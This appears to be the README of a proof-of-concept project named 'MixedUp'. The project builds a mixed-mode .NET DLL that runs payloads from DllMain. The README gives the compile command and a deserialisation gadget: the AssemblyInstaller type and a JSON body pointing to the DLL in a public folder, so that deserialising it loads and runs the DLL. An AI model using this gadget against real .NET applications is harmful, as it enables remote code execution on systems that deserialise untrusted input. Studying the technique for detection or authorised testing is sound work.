 # MixedUp
Mixed Mode Assembly PoC with sample payloads in DLLMain

## Compile

`cl /clr /LD MixedAssembly.cpp -o MixedAssembly64.dll`

## Calling

Deserialisation

Type: `'System.Configuration.Install.AssemblyInstaller, System.Configuration.Install, Version=0.0.0.0, Culture=neutral, PublicKeyToken=b03f5f7f11d50a3a'`

JSON: `'{"Path":"file:///c:/users/public/documents/MixedAssembly64.dll","CommandLine":["a","a"],"UseNewContext":false}'`
